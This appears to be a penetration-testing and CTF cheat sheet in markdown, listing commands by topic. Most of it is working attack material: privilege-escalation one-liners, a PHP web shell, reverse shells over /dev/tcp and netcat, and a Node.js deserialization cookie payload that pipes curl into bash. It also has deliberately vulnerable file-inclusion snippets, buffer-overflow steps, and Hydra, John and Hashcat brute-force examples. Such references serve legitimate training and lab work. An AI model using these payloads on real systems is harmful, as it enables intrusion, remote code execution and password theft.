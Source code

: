 ## 🔒 Encryption

```gpg --import key``` : Import the gpg key inside the gpg-agent \
```gpg message.gpg``` : Decrypt the message with the key loaded in gpg-agent

## 🪄 Steg

```steghide extract -sf``` : Extract secret from ordinary looking file

## ⚓ Privileges Escalation

```python3 -c 'import pty;pty.spawn("/bin/bash")'``` : ``pty`` python spawner (used for ``su``)

```find / type -f -user root -perm -u=s 2> /dev/null``` : Look for setUID program \
```find / -perm /4000 2> /dev/null``` : Look for setUID program
```getcap -r / 2>/dev/null ```

```sudo find file -exec cat /root/root.txt \;``` : Dump restricted file content to standard output using ``find`` and ``exec``\
```sudo -u \#$((0xffffffff)) /bin/bash``` : Run ``/bin/bash`` using run as all sudo exploit \
```sudo vim -c ':!/bin/sh'``` : Shell exploit with ```vim``` \
```python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'``` : Python priv esc sniper \
```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'``` : Require ```/usr/bin/perl = cap_setuid+ep``` \
```<?php system($_GET['cmd']);?>``` : Shell exploit with some PHP

## 🐚 Reverse Shell

```/bin/bash -i > /dev/tcp/10.10.10.10/8000 0>&1 2>&1``` : ``tcp`` based reverse shell \
```{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.10.10.10:8000/shell.sh | bash ', function(error, stdout, stderr) { console.log(stdout) });\n }()","isAdmin":true,"encoding": "utf-8"}``` : Upload reverse shell through cookie deserialization vuln \
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.126.124 8000 >/tmp/f``` : ``tcp`` based reverse shell

## 📂 File Crawling

```gobuster dir -u http://10.10.177.208 -w /usr/share/wordlists/dirb/big.txt``` : Crawl web site with gobuster (require wordlist) \
```ffuf -u http://10.10.177.208 -w /usr/share/wordlists/dirb/big.txt``` : Fuzz web site with ffuf (require wordlist)

## 📡 Network

```nmap -sC -sV``` : Scanning with nmap \
```nmap -sS -sV -A -T4 -vv``` \
```nmap -sS -min-rate 5000 -p- --open -vvv -n -Pn``` \
```nc -nlvp 9999``` : Start nectcat listener on port 9999

## 🐘 PHP

Code snippet for static LFI attack
```
if (isset($_GET['language'])) {
    include($_GET['language']); # or include("lang_" . $_GET['language']); # or include($_GET['language'] . ".php");
}
```

## 📜 JavaScript

```
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}

app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```

## 🪰 Buffer Overflow x86 ELF

```gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32``` : Compile code to make it executable

```gdb -q bow32``` : Enable debuggin of program\
```(gdb) set disassembly-flavor intel``` :  Makes the disassembled representation easier to read into gdb \
```(gdb) disas main``` : Inspect the ``main`` function into gdb\
```(gdb) info registers [eip ...]``` : Display registers informations about program into gdb \
```(gdb) x/2000xb $esp+550``` : Jump below the top of the stack 

```$(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')``` : Buffer overflow pyhton snippet

## :snake: Hydra
- Useful example

```hydra -l user -P list 10.12.56.25 ssh``` : Bruteforce password from list for ``user`` on the ``ssh`` protocol \
```hydra -l user -P list 10.12.56.25 http-post-form "FORM" -V``` : Bruteforce web based login form \
- Options

```http-post-form``` : Bruteforce for http POST method \
```http-get-form``` : Bruteforce for http GET method

```/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid``` : Form structure example

## :hocho: John The Ripper
- Useful example

```john hash --wordlist=/usr/share/wordlist/rockyou.txt``` : Mainstream example for bruteforce with wordlist\
```john hash -mask=?a?a?a?a?a?a?a?a --format=FORMAT``` : Mainstream example for bruteforce with masks
- Options

```--status``` or ```-s``` : Display attack progress\
```--show``` : Display cracked password\

## :smirk_cat: Hashcat
- Useful example

```hashcat --attack-mode 0 --hash-type 1100 HASH_FILE WORDLIST``` : Example for attacking with dictionary\
```hashcat --attack-mode 3 --increment --increment-min 4 --increment-max 8 --hash-type 1000 HASH_FILE "?a?a?a?a?a?a?a?a?a?a?a?a"``` : Example for incremental bruteforce
- Modes

```0``` : Dictionary\
```3``` : Bruteforce increment
- Options

```--status``` : Display attack progress\
```--show``` : Display cracked password\
```--attack-mode``` or ```-a``` : Enable attack mode\
```--hash-type``` or ```-m``` : Select hash format\
```--increment``` or ```-i``` : Enable incremental bruteforce
- Ressources

https://hashcat.net/wiki/doku.php?id=example_hashes
